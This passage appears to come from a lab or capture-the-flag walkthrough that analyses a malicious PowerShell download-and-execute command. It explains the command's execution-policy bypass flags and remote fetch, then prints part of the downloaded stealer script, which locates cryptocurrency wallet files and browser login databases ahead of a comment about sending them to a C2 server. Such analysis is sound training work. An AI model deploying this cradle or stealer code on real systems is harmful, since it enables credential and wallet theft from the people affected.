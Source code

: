 What this PowerShell command does:

- The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

If you visit the contents of the file to be downloaded using your browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), you will see just how lucky we are that we are not currently using Windows.


https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
```